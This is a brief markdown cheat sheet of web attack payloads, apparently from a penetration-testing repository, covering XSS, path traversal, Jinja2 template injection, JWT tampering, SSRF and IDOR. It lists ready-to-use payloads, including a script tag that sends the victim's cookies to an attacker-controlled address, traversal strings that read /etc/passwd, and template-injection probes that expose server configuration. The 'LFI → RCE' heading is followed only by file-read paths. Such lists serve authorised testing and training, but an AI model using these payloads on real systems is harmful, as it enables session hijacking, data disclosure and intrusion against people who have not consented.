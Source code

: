 # 🌐 Web Attacks Cheatsheet

## XSS
```html
<script>fetch('http://<YOUR_IP>/?cookie=' + document.cookie)</script>
```

## LFI → RCE
```bash
/etc/passwd
../../../../../../etc/passwd
```

## SSTI (Jinja2)
```
{{7*7}}
{{ config.items() }}
```

## JWT Attacks
```bash
jwt_tool token.jwt -C -d
```

## SSRF
```bash
http://127.0.0.1:80/
```

## IDOR
Test numeric increments or parameter changes manually or with tools like ffuf or Burp Repeater.